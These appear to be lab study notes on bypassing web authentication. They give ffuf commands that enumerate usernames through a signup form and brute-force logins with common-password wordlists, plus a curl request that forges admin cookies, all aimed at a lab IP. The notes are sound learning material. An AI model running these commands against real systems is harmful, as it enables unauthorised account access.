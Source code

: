 # **Authentication Bypass**

---

## **Username Enumeration**

`fuff` : enumeration tool

[Fuff Github]( https://github.com/ffuf/ffuf)

creating a list of valid usernames

exemple of use :

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.131.133/customers/signup -mr "username already exists"
```

- `-w` :  file's location on the computer that contains the list
- `-X` : request method to use
- `-d` : specifies the data the FUZZ word will be replaced by the word in the list
- `-H` : add additional headers
- `-u` : url
- `-mr` : text we are looking for to validate we've found a valid output.

---

## **Brute Force**

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.131.133/customers/login -fc 200
```

-fc argument to check for an HTTP status code other than 200.

---

## **Logic Flaw**

![](images/logicflaw.png)

---

## **Cookie Tampering**

he contents of some cookies can be in plain text, and it is obvious what they do.

```bash
curl -H "Cookie: logged_in=true; admin=true" http://10.10.131.133/cookie-test
```
